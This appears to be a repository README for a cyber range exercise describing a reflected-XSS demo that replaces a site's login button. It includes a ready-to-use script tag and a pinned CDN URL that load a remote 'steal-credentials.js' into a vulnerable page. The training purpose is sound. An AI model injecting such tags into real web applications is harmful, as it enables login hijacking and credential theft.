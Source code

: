 # Introduction

This script is intended for educational purposes only, and was created as supplemental material for a cyber range event. This code does not perform any actual malicious code, and should not be used for malicious purposes.

This is a demo XSS script that can be injected into a vulnerable web application by XSS reflection. The script will grab the login form, delete the original login button, and create a new button with a demo "malicious" script attached to it.

# To use

The script can be referenced from a script tag using jsdelivr CDN:

<script type="text/javascript" src="https://cdn.jsdelivr.net/gh/barrcodes/xss/steal-credentials.js"></script>

# To access a specific version

As CDNs should, jsdelivr caches the most recent version of the script. Sometimes you will be pulling an old version of the code, in which case you need to edit the above src path to say `xss@hash/steal-credentials.js` replacing "hash" with a commit hash. For example, the most recent version as of writing this readme is:

https://cdn.jsdelivr.net/gh/barrcodes/xss@6f7ad5044e425514c856432a2adf4f6d61998535/steal-credentials.js
